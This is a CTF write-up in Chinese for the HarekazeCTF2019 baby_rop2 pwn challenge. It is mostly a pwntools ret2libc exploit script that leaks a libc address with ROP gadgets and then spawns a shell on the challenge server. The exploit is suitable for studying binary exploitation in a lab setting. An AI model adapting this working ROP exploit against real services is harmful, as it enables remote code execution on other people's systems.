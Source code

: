 ```yaml
---
author: 
  name: Zephyr
title: HarekazeCTF2019_baby_rop2
date: 2022-3-23 9:45:03
permalink: /pages/2e1547494524d196
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# HarekazeCTF2019_baby_rop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/HarekazeCTF2019_baby_rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数及程序表如下

![HarekazeCTF2019_baby_rop2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/HarekazeCTF2019_baby_rop2_1.png)

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - plt内无system
   - 无/bin/sh字符串
   - No PIE
2. 思路：
   - ret2libc做法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/HarekazeCTF2019_baby_rop2/babyrop2'
io = remote('node4.buuoj.cn', 29266)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x20+8
pop_rdi_ret = 0x400733
pop_rsi_r15_ret = 0x400731
format_addr = 0x400770
printf_plt = elf.plt['printf']
libc_start_main_got = elf.got['__libc_start_main']
main_addr = elf.symbols['main']
payload = flat(['a'*padding, pop_rdi_ret, format_addr, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, printf_plt, main_addr])
io.sendafter("What's your name? ", payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libcbase = leak_libc_start_main-libc.dump('__libc_start_main')
system = libcbase+libc.dump('system')
bin_sh = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.sendafter("What's your name? ", payload)
io.interactive()
```